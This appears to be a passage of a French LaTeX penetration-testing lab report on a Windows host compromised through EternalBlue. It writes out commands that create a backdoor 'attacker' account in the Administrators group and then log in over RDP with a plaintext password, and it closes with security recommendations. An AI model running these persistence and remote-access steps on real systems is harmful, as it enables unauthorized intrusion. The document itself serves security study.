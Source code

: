 \documentclass[a4paper,12pt]{report}
\begin{document}
On crée un nouvel utilisateur avec un mot de passe, l'ajoute au groupe Administrators et vérifie.

\begin{lstlisting}
net user attacker ******* /add
net localgroup Administrators attacker /add
net localgroup Administrators

\end{lstlisting}

\begin{figure}[H] 
      \label{windows-rdp-user}
        \centering
          \texttt{[image: img/eternalblue/eternal\_blue\_rdp\_7.png]} 
        \caption{création de l'utilisateur attacker}
    \end{figure}

On voit bien l'attaquant "attacker".
    
    Finalement, on se connecte via RDP depuis Kali Linux 
\begin{lstlisting}
xfreerdp /u:attacker /p:Pass1234 /v:192.168.45.30 /sec:rdp
\end{lstlisting}

\begin{figure}[H] 
      \label{windows-rdp-user}
        \centering
          \texttt{[image: img/eternalblue/eternal\_blue\_rdp\_8.png]} 
        \caption{création de l'utilisateur attacker}
    \end{figure}

La session sur meterpreter est toujours en cours d'où le message sur la Figure\ref{windows-rdp-user}.

\begin{figure}[H] 
      \label{windows-rdp-user-graphiqe}
        \centering
          \texttt{[image: img/eternalblue/eternal\_blue\_new\_user.png]} 
        \caption{l'utilisateur attacker}
    \end{figure}

\subsection{Conclusions et recommandations}
\paragraph{Vulnérabilités identifiées}
\begin{itemize}
    \item Présence de SMBv1 activé
    \item Accès RDP non sécurisé
    \item Mots de passe faibles
\end{itemize}
\end{document}
